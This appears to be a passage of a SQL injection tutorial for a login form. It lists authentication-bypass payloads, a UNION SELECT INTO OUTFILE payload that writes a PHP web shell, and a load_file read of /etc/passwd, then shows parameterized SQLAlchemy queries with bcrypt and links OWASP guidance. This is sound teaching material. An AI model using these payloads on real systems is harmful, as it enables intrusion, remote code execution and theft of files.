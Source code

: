     Variables `username`, `password` are user controlled. So...

    Logging in knowing username without password:
    * `username`: `admin--` -- just comment the password part
    * `username`: `admin' AND 1=1--` -- Tru and True makes true
   
    Logging in without knowing username:
    * `username`: `ololo' OR 1=1--` -- False or True makes True


3. Real nasty shit

    File upload -> RCE:

        ' UNION SELECT '<?php system($_GET['cmd']); ?>' INTO OUTFILE '/var/www/html/shell.php' #

    File read:

        ' UNION SELECT load_file('/etc/passwd') #

### How to secure?

1. Use well-known libraries for querying SQL database (and NotSQL too!)

    ```python
    from flask_sqlalchemy import SQLAlchemy
    from flask_bcrypt import Bcrypt
   
    db = SQLAlchemy()
    ...
    bcrypt = Bcrypt(app)

    class User(db.Model):
        __tablename__ = 'users'
    
        id = db.Column(db.Integer, primary_key = True)
        username = db.Column(db.String)
        _password_hash = db.Column(db.String)
   
        def authenticate(self, password):
            return bcrypt.check_password_hash(self._password_hash, password.encode('utf-8'))
   
    ...
   
    username = request.get('username')
    password = request.get('password')

    user = User.query.filter(User.username == username).first()
    if user:
        if user.authenticate(password):
            # OK, creating session for a new user
        else:
            # wrong creds
    ```

2. Check OWASP guidelines: [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
